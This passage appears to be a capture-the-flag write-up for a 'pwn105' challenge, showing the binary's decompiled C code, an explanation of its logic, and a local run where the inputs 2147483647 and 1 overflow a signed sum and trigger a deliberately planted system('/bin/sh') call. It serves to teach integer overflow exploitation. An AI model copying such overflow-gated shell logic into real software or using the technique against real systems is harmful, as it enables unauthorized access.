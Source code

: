 ```c
  sum = num2 + num1;
  if (((int)num1 < 0) || ((int)num2 < 0)) {
    printf("\n[o.O] Hmmm... that was a Good try!\n",(ulong)num1,(ulong)num2,(ulong)sum);
  }
  else if ((int)sum < 0) {
    printf("\n[*] C: %d",(ulong)sum);
    puts("\n[*] Popped Shell\n[*] Switching to interactive mode");
    system("/bin/sh");
  }
  else {
    printf("\n[*] ADDING %d + %d",(ulong)num1,(ulong)num2);
    printf("\n[*] RESULT: %d\n",(ulong)sum);
  }
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

From this we know what it does

```
1. Prints out the banner
2. It receives our input and stores it in variable num1
3. It receives our input and stores it in variable num2
4. A variable is made which sums up num1 and num2
5. An if check is done to know if the num1 variable is less than zero or the num2 is leess than 0
6. If the check is meet it exits 
7. Else if the sum variable is less than zero it pops a shell 
8. But if non of that is meet it justs sums up our input and give its calculated value
```

Now from this we know that we can't give any negative number cause it will make the program exits 

And the aim is to make the sum variable a negative number whilst the value stored in num1 or num2 shouldn't be a negative number

The way around this is to perform an integer overflow 

Here's the resource [Resouce](https://www.acunetix.com/blog/web-security-zone/what-is-integer-overflow/)

So when i give it this input `2,147,483,647` as num1 and `1` as num2 it will evaluate to a negative number 

Trying it locally works and the reason is because the maximum value of a signed integer is `2147483647` so giving it `1` goes above the maximum value

```
└─$ ./pwn105.pwn105
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 105          


-------=[ BAD INTEGERS ]=-------
|-< Enter two numbers to add >-|

]>> 2147483647
]>> 1

[*] C: -2147483648
[*] Popped Shell
[*] Switching to interactive mode
$ ls -al
```